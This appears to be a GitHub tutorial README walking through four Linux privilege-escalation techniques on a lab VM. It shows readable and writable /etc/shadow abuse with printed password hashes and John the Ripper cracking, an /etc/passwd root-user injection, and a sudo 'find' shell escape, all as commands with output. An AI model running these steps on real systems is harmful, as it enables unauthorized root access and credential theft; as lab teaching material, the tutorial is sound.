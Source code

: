 # Linux-Privilege-Escalation


# 🔥01: Readable /etc/shadow:

#### 👀The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note:  the /etc/shadow file on the VM is world-readable

At first check permission of /etc/shadow file using :

     ls -l /etc/shadow

    -rw-r--rw- 1 root shadow 842 Apr  9 17:28 /etc/shadow

Then , view the contents of the /etc/shadow file uisng :

              cat /etc/shadow
              
              root:$6$LRq2u1SvWmPgF$zCIh5qzquQ31ZcsL0ifM9GKh.pQRwHSKjJQSJI4Tkl5ELRHjqWTzag8upywqk.jT6/niiOIaMF9XW1/BnN55Y/:17298:0:99999:7:::
              daemon:*:17298:0:99999:7:::
              bin:*:17298:0:99999:7:::
              sys:*:17298:0:99999:7:::
              sync:*:17298:0:99999:7:::
              games:*:17298:0:99999:7:::
              man:*:17298:0:99999:7:::
              lp:*:17298:0:99999:7:::
              mail:*:17298:0:99999:7:::
              news:*:17298:0:99999:7:::
              uucp:*:17298:0:99999:7:::
              proxy:*:17298:0:99999:7:::
              www-data:*:17298:0:99999:7:::
              backup:*:17298:0:99999:7:::
              list:*:17298:0:99999:7:::
              irc:*:17298:0:99999:7:::
              gnats:*:17298:0:99999:7:::
              nobody:*:17298:0:99999:7:::
              libuuid:!:17298:0:99999:7:::
              Debian-exim:!:17298:0:99999:7:::
              sshd:*:17298:0:99999:7:::
              user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
              statd:*:17299:0:99999:7:::
              mysql:!:18133:0:99999:7:::




#### 👀Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Machine  and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

     john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Switch to the root user, using the cracked password:

    su root

#### 😍Happy Hacking 😍

# 02: writeable /etc/shadow 

check the permssion of  /etc/shadow file using /etc/shadow. If you can edit the file , you can easily change the password of root .

     ls -l /etc/shadow 
    -rw-r--rw- 1 root shadow 842 Apr  9 17:28 /etc/shadow

#### 👀 Look : We can edit /etc/shadow file as we have  permission

Generate a new password hash with a password of your choice :

Here  , we  use mkpasswd command for generate a password 

Command :

           mkpasswd -m sha-512 iloveislam

Here  ,    
           
           -m use for method 
          
           sha-512 use for hashing the pasword 

           iloveislam is the password 

Then , edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

su root

#### 😍Happy Hacking 😍


# 🔥03:Writable /etc/passwd :

#### ⏰The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

Note : that the /etc/passwd file is world-writable

At first check permission of /etc/passwd file using 

     ls -l /etc/passwd

    -rw-r--rw- 1 root passwd 842 Apr  9 17:28 /etc/shadow


#### 🧑Generate a new password hash with a password of your choice:

    openssl passwd newpasswordhere

#### 👀Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

    su root

#### 👁️ Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

          user@debian:~$ nano /etc/passwd
          root:x:0:0:root:/root:/bin/bash
          daemon:x:1:1:daemon:/usr/sbin:/bin/sh
          bin:x:2:2:bin:/bin:/bin/sh
          sys:x:3:3:sys:/dev:/bin/sh
          sync:x:4:65534:sync:/bin:/bin/sync
          games:x:5:60:games:/usr/games:/bin/sh
          man:x:6:12:man:/var/cache/man:/bin/sh
          lp:x:7:7:lp:/var/spool/lpd:/bin/sh
          mail:x:8:8:mail:/var/mail:/bin/sh
          news:x:9:9:news:/var/spool/news:/bin/sh
          uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
          proxy:x:13:13:proxy:/bin:/bin/sh
          www-data:x:33:33:www-data:/var/www:/bin/sh
          backup:x:34:34:backup:/var/backups:/bin/sh
          list:x:38:38:Mailing List Manager:/var/list:/bin/sh
          irc:x:39:39:ircd:/var/run/ircd:/bin/sh
          gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
          nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
          libuuid:x:100:101::/var/lib/libuuid:/bin/sh
          Debian-exim:x:101:103::/var/spool/exim4:/bin/false
          sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
          user:x:1000:1000:user,,,:/home/user:/bin/bash
          statd:x:103:65534::/var/lib/nfs:/bin/false
          mysql:x:104:106:MySQL Server,,,:/var/lib/mysql:/bin/false


Now switch to the newroot user, using the new password:

    su newroot
    
#### 😍Happy Hacking 😍

# 🔥04: Shell Escape Sequences :

#### 👀 Shell Escape sequences is so powerful process for Privilege Escalation . In this process attacker use shell for privilege Escalation 

### Process :

             step 1 : check listed programs which sudo allows your normal user to run using  " sudo -l " command on terminal 

             step 2: run shell escape according to your listed programs that was the result of sudo -l command 


' Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

Webite Name For shell Escape : GTFPBins '

#### Example :
   
Step 1 :
              sudo - l 

     Matching Defaults entries for user on this host:
         env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

     User user may run the following commands on this host:
         (root) NOPASSWD: /usr/sbin/iftop
         (root) NOPASSWD: /usr/bin/find
         (root) NOPASSWD: /usr/bin/nano
         (root) NOPASSWD: /usr/bin/vim
         (root) NOPASSWD: /usr/bin/man
         (root) NOPASSWD: /usr/bin/awk
         (root) NOPASSWD: /usr/bin/less
         (root) NOPASSWD: /usr/bin/ftp
         (root) NOPASSWD: /usr/bin/nmap
         (root) NOPASSWD: /usr/sbin/apache2
         (root) NOPASSWD: /bin/more

Ok  , that's great  . Now check all listed program escape shell from GTFOBins  one by one .

Step 2 : Go to GTFOBins website and choice escape shell according to your  sudo -l result . (Suppose  , we wanna check  (root) NOPASSWD: /usr/bin/find )
        
         GTFOBins Result :
 
                        sudo find . -exec /bin/sh \; -quit

Step 3: Copy the shell escape of GTFOBins and paste it on your terminal 

     user@debian:~$ sudo find . -exec /bin/sh \; -quit
     sh-4.1# 
 
 Step 4: Wow, you did well . Now , use id command and see you are now root 🥰

     sh-4.1# id
     uid=0(root) gid=0(root) groups=0(root)
     sh-4.1# 

#### 😍Happy Hacking 😍
